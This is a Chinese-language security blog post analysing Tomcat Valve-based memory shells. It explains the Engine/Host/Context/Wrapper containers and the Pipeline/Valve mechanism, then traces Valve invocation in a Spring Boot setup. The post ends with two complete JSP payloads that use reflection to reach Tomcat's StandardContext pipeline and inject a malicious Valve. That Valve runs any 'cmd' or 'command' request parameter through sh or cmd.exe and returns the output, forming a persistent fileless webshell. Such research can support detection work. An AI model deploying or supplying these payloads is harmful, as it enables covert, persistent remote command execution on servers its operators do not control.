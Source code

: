 ```yaml
---
layout: post
title: "tomcat-value内存马分析学习"
date:   2025-6-23
comments: true
author: laitya1
---
```

Tomcat的两个核心组件连接器：Connector和Container

```
Tomcat的Container分为四个层级，从上到下依次为：
1.Engine（引擎）：
一个 Tomcat 实例中只能有一个 Engine，负责处理所有进入 Tomcat 的请求。
是 Container 的顶层容器，管理多个 Host 容器。
2.Host（主机）：
代表一个虚拟主机，通常对应一个域名（如 example.com）。
每个 Host 管理多个 Context 容器，负责将请求按域名分发到不同的 Web 应用。
3.Context（上下文）：
代表一个 Web 应用，对应服务器上的一个 Web 应用目录（如 /webapps/myapp）。
管理 Servlet 的注册、初始化及请求的具体处理逻辑。
4.Wrapper（包装器）：
最底层的容器，直接封装一个 Servlet 实例。
负责处理单个 Servlet 的请求，是 Container 架构的最基本单元。
```
![fa565e4f87ffb3ed06cdb2a1be014c56.png](../images/fa565e4f87ffb3ed06cdb2a1be014c56.png)
Container处理的第一层就是Engine容器，但是在tomcat中Engine容器不会直接调用Host容器去处理请求，而是调用了自己的pipeline组件去处理，跟pipeline相关的还有个也是容器内部的组件，叫做value组件。

Pipeline的作用就如其中文意思一样——管道，可以把不同容器想象成一个独立的个体，那么pipeline就可以理解为不同容器之间的管道，道路，桥梁。那Valve这个组件是什么东西呢？Valve也可以直接按照字面意思去理解为阀门。我们知道，在生活中可以看到每个管道上面都有阀门，Pipeline和Valve关系也是一样的。Valve代表管道上的阀门，可以控制管道的流向，当然每个管道上可以有多个阀门。如果把Pipeline比作公路的话，那么Valve可以理解为公路上的收费站，车代表Pipeline中的内容，那么每个收费站都会对其中的内容做一些处理（收费，查证件等）。

在catalina中，4种容器都有自己的Pipeline组件，每个Pipeline组件上至少会设定一个Valve，这个Valve我们称之为BaseValve，也就是基础阀。基础阀的作用是连接当前容器的下一个容器（通常是自己的自容器），可以说基础阀是两个容器之间的桥梁。

Pipeline定义对应的接口Pipeline，标准实现了StandardPipeline。Valve定义对应的接口Valve，抽象实现类ValveBase，4个容器对应基础阀门分别是StandardEngineValve，StandardHostValve，StandardContextValve，StandardWrapperValve。

Catalina 是 Apache Tomcat 的核心组件，它是 Servlet 容器 的具体实现，负责处理和管理 Java Web 应用的运行环境

用springboot-web代替tomcat的环境
创建test目录下的两个文件
```
package org.example.valvememoryshelldemo.test;

import java.io.IOException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;
import org.springframework.stereotype.Component;

@Component
public class TestValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException {
        response.setContentType("text/plain");
        response.setCharacterEncoding("UTF-8");
        response.getWriter().write("Valve 被成功调用");
    }
}
```


```
package org.example.valvememoryshelldemo.test;

import org.apache.catalina.Valve;
import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class TestConfig {
    @Bean
    public WebServerFactoryCustomizer<TomcatServletWebServerFactory> tomcatCustomizer() {
        return factory -> {
            factory.addContextValves(getTestValve());
        };
    }

    @Bean
    public Valve getTestValve() {
        return new TestValve();
    }
}
```
通常情况下用的ValveBase，点进ValveBase，看到实现了Valve接口：
![9560512a5e7192f9eafbcc1e10f9cc41.png](../images/9560512a5e7192f9eafbcc1e10f9cc41.png)
```
public interface Valve {
    Valve getNext();  // 获取下一个阀门

    void setNext(Valve var1); // 设置下一个阀门

    void backgroundProcess(); // 后台执行逻辑，主要在类加载上下文中使用到

	// 执行业务逻辑
    void invoke(Request var1, Response var2) throws IOException, ServletException;

	// 是否异步执行
    boolean isAsyncSupported();
}

```
接下来进行调试，看看之前调用的invoke方法在StandardHostValve.java中，代码为：
```
context.getPipeline().getFirst().invoke(request, response);
```
![9fbfeb49a28acff150f7ad87273c6a9b.png](../images/9fbfeb49a28acff150f7ad87273c6a9b.png)
在StandardEngineValve中为
```
host.getPipeline().getFirst().invoke(request, response);
```
![cadf5d90e84b2379faff86a02d5d60ff.png](../images/cadf5d90e84b2379faff86a02d5d60ff.png)
后面就不关注了，就关注自己能打进去的value内存马

进去，点击图中的红框箭头
![ff2c6787ad3fbfd175369f3e176fbb2d.png](../images/ff2c6787ad3fbfd175369f3e176fbb2d.png)
进去对应的pipeline接口
![86f4166228a5234cd8433fc0869f6c57.png](../images/86f4166228a5234cd8433fc0869f6c57.png)
![65503b7b47391086b02eaf5b23be22be.png](../images/65503b7b47391086b02eaf5b23be22be.png)
看到addvalue方法
![242b047dbb1263bee541910932ee06a0.png](../images/242b047dbb1263bee541910932ee06a0.png)
无法直接获取到这个StandardPipeline，而我们能直接获取到的是StandardContext，那就去看看StandardContext.java中有没有获取StandardPipeline的方法。getPipeline能实现获取
![b2b78a6439d736e1ca9d6a1788769de7.png](../images/b2b78a6439d736e1ca9d6a1788769de7.png)
![5ef84f1414bc43b251fc9c0ac82f2ece.png](../images/5ef84f1414bc43b251fc9c0ac82f2ece.png)
那这样以来我们的思路就可以补充完整了，先反射获取StandardContext，然后编写一个恶意Valve，最后通过StandardContext.getPipeline().addValve()添加就可以了。当然，我们也可以反射获取StandardPipeline，然后再addValve，这样也是可以的。
```
采用了从StandardContext反射获取StandardPipeline的方式
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    final Request req = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline evilStandardPipeline = (StandardPipeline) pipelineField.get(standardContext);
    ValveBase evilValve = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws ServletException,IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.setCharacterEncoding("GBK");
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
                this.getNext().invoke(request, response);
            }
        }
    };
    evilStandardPipeline.addValve(evilValve);
    out.println("inject success");
%>
```



```
调用 standardContext.getPipeline().addValve实现
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
  class testEvilValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws ServletException,IOException {
      if (request.getParameter("command") != null) {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
          isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("command")} : new String[]{"cmd.exe", "/c", request.getParameter("command")};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
        String output = s.hasNext() ? s.next() : "";
        response.setCharacterEncoding("GBK");
        PrintWriter out = response.getWriter();
        out.println(output);
        out.flush();
        out.close();
        this.getNext().invoke(request, response);
      }
    }
  };
%>

<%
  Field requestField = request.getClass().getDeclaredField("request");
  requestField.setAccessible(true);
  final Request req = (Request) requestField.get(request);
  StandardContext standardContext = (StandardContext) req.getContext();
  standardContext.getPipeline().addValve(new testEvilValve());
  out.println("inject success");
%>
```
![27ce61f1092053838948337cccb02a8d.png](../images/27ce61f1092053838948337cccb02a8d.png)
